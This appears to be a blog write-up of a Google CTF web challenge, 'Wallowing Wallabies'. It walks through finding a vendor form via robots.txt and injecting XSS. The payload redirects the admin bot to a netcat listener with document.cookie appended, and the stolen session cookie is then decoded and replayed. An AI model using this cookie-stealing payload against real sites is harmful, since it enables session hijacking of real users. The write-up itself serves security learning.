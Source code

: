 ```yaml
---
layout: post
title: Google CTF - Wallowing Wallabies - Part One
comments: true
---
```


This post is about the [Wallowing Wallabies](https://wallowing-wallabies.ctfcompetition.com/) web challenge of the [Google CTF](https://capturetheflag.withgoogle.com).

On the website, we are greeted by this beautiful page:
![Wallowing Wallabies home page](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/homepage.png)

As interesting as this page is, I quickly moved to the `sitemap.xml` (none were found) and to the `robots.txt`:

```
User-agent: *
Disallow: /deep-blue-sea/
Disallow: /deep-blue-sea/team/
# Yes, these are alphabet puns :)
Disallow: /deep-blue-sea/team/characters
Disallow: /deep-blue-sea/team/paragraphs
Disallow: /deep-blue-sea/team/lines
Disallow: /deep-blue-sea/team/runes
Disallow: /deep-blue-sea/team/vendors
```

After trying all the URLs, I found that the vendors one was interesting.

![Wallowing Wallabies Vendors](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors.png)

That's interesting. It is obviously a form where you put text that will be read by an administrator (or a bot in our case). Let's see if it's possible to do a [XSS injection](https://en.wikipedia.org/wiki/Cross-site_scripting). We will start by checking if the HTML tags are displayed to the page:

``` html
<h1>XSS</h1>
```

And we receive

![Wallowing Wallabies Vendor submission confirmation with XSS hint](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-hint.png)

So the `<h1>` didn't work, but we get told that they expect our form to contains `<script src=`. We can conclude that this challenge is really an XSS.

Now that we know what we can do, we have to find out what to do. The first thing to think about when we control a page that will be viewed by someone (especially an admin) is that we can steal his **session cookie**.

To steal a cookie, one can redirect the current user viewing the page to a page under our control, with the cookies appended to the URL. Note that this is a lazy way to do it and it might fail in some cases if the cookie is longer than the max length of the URL. Hopefully, this is not our case, so we can be lazy.

The first thing to do is to setup a server to receive the cookie. I used netcat as it is easy to setup and we only need to listen to one connection. Note that if you are behind a router, you will need to redirect the port you use to your computer. I will leave this as an exercise to the reader.

Start your "web server":

``` bash
netcat -l -p 8085 #-l is to listen -p is to specify the port
```

Now we need our JavaScript payload to redirect the user. Once again I don’t want to host the script, and the website wants to receive `<script src=`, so I just append it to my script to make the check pass.

``` html
<script>
  window.location = "http://YOUR_IP_ADDRESS:8085/" + document.cookie;
</script>
<script src=""></script>
```

The admin (bot) will load the page with your script in it, and you will see the URL containing the cookie in the netcat terminal. Don’t forget to **URL decode** the cookie.

Your cookie should look something like this:

```
green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2
```

The cookie is named `green-mountains` and the value is everything after the first `=`. We can see that it's in 3 parts separated by `|`. The first part looks like Base64 (you can tell because it's all **alphanumeric** and end with an `=`). If you decode it, you get:

``` json
{"nonce":"593a7fdc41a4f1a0","allowed":"^/deep-blue-sea/team/vendors.*$","expiry":1462051043}
```

The interesting part is the `allowed`, which seems to give access to our **vendor** website. We will set the cookie in the browser. You can do it by pasting that in the console:

``` js
document.cookie = "green-mountains=eyJub25jZSI6IjU5M2E3ZmRjNDFhNGYxYTAiLCJhbGxvd2VkIjoiXi9kZWVwLWJsdWUtc2VhL3RlYW0vdmVuZG9ycy4qJCIsImV4cGlyeSI6MTQ2MjA1MTA0M30=|1462051040|92ceb6fb03f0501199c4399ca3cf870bccd6ffd2";
```

When you access the [vendor](https://wallowing-wallabies.ctfcompetition.com/deep-blue-sea/team/vendors) page: **Voilà!** You get your flag!

![Wallowing Wallabies Vendor page with blurred flag](/public/img/2016/05/03/Google-CTF-Wallowing-Wallabies-part-one/vendors-flag.png)
